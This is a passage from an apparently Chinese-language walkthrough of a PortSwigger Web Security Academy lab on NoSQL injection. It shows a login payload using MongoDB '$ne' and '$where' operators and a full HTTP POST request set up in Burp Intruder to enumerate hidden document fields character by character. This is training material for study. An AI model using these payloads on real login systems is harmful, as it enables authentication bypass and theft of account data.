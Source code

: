 ```plain
{"username":"carlos","password":{"$ne":"invalid"},"$where":"1"}
```

![图片](assets/1711872140-23b6e84b66e10e58e6f65ed961492bad.webp)

Step  7：随后发送请求到 Intruder 模块

```plain
POST /login HTTP/1.1
Host: 0a4e0005040ae0d18307b961007100c4.web-security-academy.net
Connection: close
Content-Length: 63
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0a4e0005040ae0d18307b961007100c4.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4e0005040ae0d18307b961007100c4.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=B8Qf680l4KuP7xSm58kyY7emeXmmQlxS

{"username":"carlos","password":{"$ne":"invalid"},"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"}
```

![图片](assets/1711872140-36ea6b10f0a9d2db18b8707d18dac23f.webp)